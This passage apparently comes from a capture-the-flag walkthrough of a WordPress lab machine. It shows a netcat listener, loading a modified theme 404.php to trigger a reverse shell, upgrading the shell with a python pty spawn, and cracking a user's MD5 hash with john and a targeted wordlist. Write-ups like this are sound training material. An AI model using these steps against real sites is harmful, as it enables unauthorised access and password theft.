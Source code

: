 ### 4.2 Start listener and trigger

On Kali:

```bash
nc -lvnp 4444
```

Open the modified theme file to trigger the payload:

```
http://10.10.64.***/wp-content/themes/<theme>/404.php
```

### 4.3 Stabilize shell

In the received netcat session:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z, then on attacker:
stty raw -echo; fg
# inside session:
export TERM=xterm
reset
```

---

## 5) Local enumeration — escalate to `robot`

### 5.1 Check home and find artifacts

```bash
whoami; id; ls -la /home
```

Found `/home/robot` containing:

* `key-2-of-3.txt` (permissions `-r--------`)
* `password.raw-md5` (an MD5 hash)

### 5.2 Crack the local MD5

Read the hash and attempt cracking with `john` using the targeted `fsocity` wordlist. When direct cracking fails, use a small custom script to try common transformations (word+username, leet, numeric suffixes). In this engagement a small self-made Python script was used to iterate reasonable candidates and found the password quickly.

Example (create `hash.txt` and run john):

```bash
echo 'c3fcd3d76192e4007dfb496cca67e13b' > hash.txt
john --format=raw-md5 --wordlist=/root/tools/wordlists/fsocity.dic hash.txt
# if not found, run the targeted custom script (described in notes)
```
